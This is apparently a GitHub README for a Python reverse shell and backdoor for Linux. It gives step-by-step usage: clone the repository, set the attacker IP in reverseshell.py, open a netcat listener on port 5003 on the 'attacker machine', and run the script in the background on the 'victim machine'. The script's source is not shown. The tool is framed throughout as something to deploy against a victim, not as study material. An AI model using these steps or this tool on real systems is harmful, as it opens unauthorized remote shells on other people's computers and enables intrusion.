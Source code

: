 ## ReverseShell | written in ![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)

- A python backdoor/reverseshell for linux.

![backd](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

## How to use?

Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```

After successful cloning:
```
cd ReverseShell
```
## You will found a file called >> reverseshell.py:

- Now you need to change the ip in the script.

## After saving your settings you can test it:

- On the attacker machine:
```
nc -lnvp 5003
```
- On the vivtim machine:
```
python3 reverseshell.py &
```

